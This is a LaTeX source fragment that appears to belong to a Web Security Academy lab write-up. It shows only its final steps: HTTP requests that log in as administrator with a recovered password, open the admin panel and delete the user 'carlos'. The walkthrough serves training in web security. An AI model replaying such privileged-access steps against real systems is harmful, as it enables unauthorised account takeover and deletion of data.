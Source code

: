 \documentclass[11pt,letterpaper]{article}
\newcommand{\password}[1]{\texttt{\color{passwordcolor}#1}}
\begin{document}
\textbf{Administrator Password:} \password{xK7mN9pQrS2t}

\subsection{Step 5: Authenticate as Administrator}

\begin{listing}[H]
\begin{verbatim}
-- Logout first or use new session --
POST /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=NEWTOKEN456&username=administrator&password=xK7mN9pQrS2t

-- Response --
HTTP/1.1 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=adminSession789

-- Follow redirect --
GET /my-account?id=administrator HTTP/1.1
Cookie: session=adminSession789

-- Now authenticated as administrator --
HTTP/1.1 200 OK

<a href="/admin">Admin panel</a>
\end{verbatim}
\caption{Step 5: Login as administrator}
\end{listing}

\subsection{Step 6: Execute Privileged Action}

\begin{listing}[H]
\begin{verbatim}
-- Access admin panel --
GET /admin HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=adminSession789

-- Response shows user management --
HTTP/1.1 200 OK

<h1>Admin Panel</h1>
<div>
    carlos - <a href="/admin/delete?username=carlos">Delete</a>
</div>
<div>
    wiener - <a href="/admin/delete?username=wiener">Delete</a>
</div>

-- Delete carlos --
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=adminSession789

-- Response --
HTTP/1.1 302 Found
Location: /admin

-- Lab solved! --
\end{verbatim}
\caption{Step 6: Access admin panel and delete user}
\end{listing}
\end{document}
